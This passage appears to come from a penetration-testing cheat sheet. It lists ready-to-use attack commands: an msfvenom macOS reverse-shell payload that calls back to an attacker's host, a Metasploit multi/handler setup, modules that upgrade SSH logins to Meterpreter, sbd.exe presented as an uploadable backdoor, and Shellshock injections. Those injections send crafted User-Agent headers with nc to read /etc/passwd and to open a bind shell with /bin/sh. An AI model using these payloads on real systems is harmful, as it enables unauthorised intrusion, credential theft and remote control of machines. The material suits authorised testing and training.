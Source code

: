       *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z

      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

- SSH to Meterpreter: <https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/>

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

- SBD.exe

     sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
     sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

- Shellshock

  - Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

  - git clone <https://github.com/nccgroup/shocker>

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

  - Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  

              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

  - cat file (view file contents)  

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

  - Shell Shock run bind shell  

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
